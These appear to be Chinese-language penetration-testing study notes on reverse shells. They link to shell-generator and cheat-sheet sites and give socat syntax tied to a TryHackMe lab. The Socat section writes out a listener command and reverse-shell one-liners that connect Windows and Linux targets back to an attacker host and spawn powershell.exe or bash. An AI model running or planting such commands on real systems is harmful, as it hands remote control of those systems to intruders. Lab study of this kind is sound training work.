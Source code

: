 ```yaml
---
tags:
  - 渗透/利用
---
```



**实用网站**
- 一键生成： [https://www.revshells.com/](https://www.revshells.com/)
	- windows用ps的base64可能有奇效
- [pentestmonkey](https://web.archive.org/web/20200901140719/http:/pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![[Shell#tricks]]

---


## [[Netcat]]



## Msfvenom

> [[metasploit]]



## Socat

> [https://tryhackme.com/room/introtoshells](https://tryhackme.com/room/introtoshells)

强化版nc。但默认一般都没安装，且语法较难。理解 socat 的最简单方法是作为两点之间的连接器。

### 基础语法

#### 反弹shell

**攻击机监听：**  
`socat TCP-L:<port> -`。不稳定，等效于 `nc -lvnp <port>`。

- 两点：监听端口和标准输入。
- TCP：可当做命令的一部分（基本都会用到）
- -L：指listener
- -：也是一个option

**Windows目标：**  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

> The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

**Linux目标：**  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
